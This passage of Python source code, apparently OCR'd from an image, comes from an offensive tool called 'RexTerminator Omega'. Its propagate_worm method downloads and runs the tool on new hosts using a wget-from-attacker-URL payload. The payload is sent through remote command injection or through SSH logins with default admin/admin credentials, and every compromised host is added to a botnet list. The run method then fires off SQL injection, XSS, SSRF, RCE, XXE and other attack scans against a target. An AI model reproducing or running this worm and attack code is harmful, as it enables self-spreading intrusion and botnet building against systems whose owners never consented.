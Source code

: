     def propagate_worm(self):
        print("[*] Propagating as a worm...")
        success = False
        if len(self.backdoors) > 100:
            print("[!] Worm propagation limit reached.")
            return
        for backdoor in self.backdoors:
            if backdoor["type"] in ["RCE", "SSH"]:
                target = backdoor.get("url", backdoor.get("target"))
                try:
                    worm_payload = f"wget {self.attacker_url}/rexterminator_omega.py -O /tmp/rexterminator.py; python /tmp/rexterminator.py {target} &"
                    if "http" in target:
                        self.session.get(f"{target}?cmd={worm_payload}", timeout=10)
                    else:
                        ip, port = target.split(":")
                        ssh = paramiko.SSHClient()
                        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                        ssh.connect(ip, port=int(port), username="admin", password="admin", timeout=10)
                        stdin, stdout, stderr = ssh.exec_command(worm_payload)
                        print(f"[!] Worm propagated to {target}!")
                        self.botnet.append(target)
                        ssh.close()
                        success = True
                except:
                    pass
        self.update_rl_model("propagate", success)

    def run(self):
        print(f"[*] Starting RexTerminator Omega on {self.target_url}...")
        flask_thread = threading.Thread(target=run_flask)
        flask_thread.daemon = True
        flask_thread.start()
        time.sleep(2)

        self.setup_proxies()
        self.network_scan()
        self.crawl()

        tasks = []
        for url in self.urls_to_test:
            tasks.append(self.pool.apply_async(self.fingerprint_server, (url,)))
            tasks.append(self.pool.apply_async(self.check_cve, (url,)))
            tasks.append(self.pool.apply_async(self.test_sql_injection, (url,)))
            tasks.append(self.pool.apply_async(self.test_xss, (url,)))
            tasks.append(self.pool.apply_async(self.test_lfi, (url,)))
            tasks.append(self.pool.apply_async(self.test_open_redirect, (url,)))
            tasks.append(self.pool.apply_async(self.test_ssrf, (url,)))
            tasks.append(self.pool.apply_async(self.test_rce, (url,)))
            tasks.append(self.pool.apply_async(self.test_xxe, (url,)))
            tasks.append(self.pool.apply_async(self.test_idor, (url,)))
            tasks.append(self.pool.apply_async(self.test_misconfigs, (url,)))
            tasks.append(self.pool.apply_async(self.test_zero_day, (url,)))
            tasks.append(self.pool.apply_async(self.fuzz_for_zero_days, (url,)))
